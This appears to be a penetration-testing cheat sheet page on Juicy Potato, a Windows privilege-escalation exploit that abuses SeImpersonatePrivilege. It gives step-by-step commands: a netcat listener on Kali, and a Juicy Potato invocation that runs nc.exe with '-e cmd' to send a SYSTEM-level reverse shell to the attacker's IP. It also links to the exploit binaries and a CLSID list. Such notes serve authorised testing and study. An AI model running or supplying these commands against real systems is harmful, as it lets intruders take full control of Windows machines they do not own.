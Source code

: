 # Potato Exploits

## seImpersonatePrivilege (Juicy Potato)

* If you see this permission, it pretty much makes every version of Windows vulnerable to a Juicy Potato Exploit

<mark style="color:yellow;">whoami /priv</mark>:

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

This exploit requires the usage of Class Identifiers (CLSIDs)

{% embed url="http://ohpe.it/juicy-potato/CLSID/" %}

Once you Identify a proper CLSID, run the following:

1. Start NC listener on Kali

```
nc -lnvp 1337
```

&#x20; 2\. Execute juicy potato exploit with working CLSID&#x20;

```
Juicy.Potato.x86.exe -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D} -t * -l 1337 -p "C:\path\to\nc.exe" -a "<kali_ip_here 1337 -e cmd"
```

Repo

{% embed url="https://github.com/ohpe/juicy-potato/releases" %}

Tutorial

{% embed url="https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505" %}
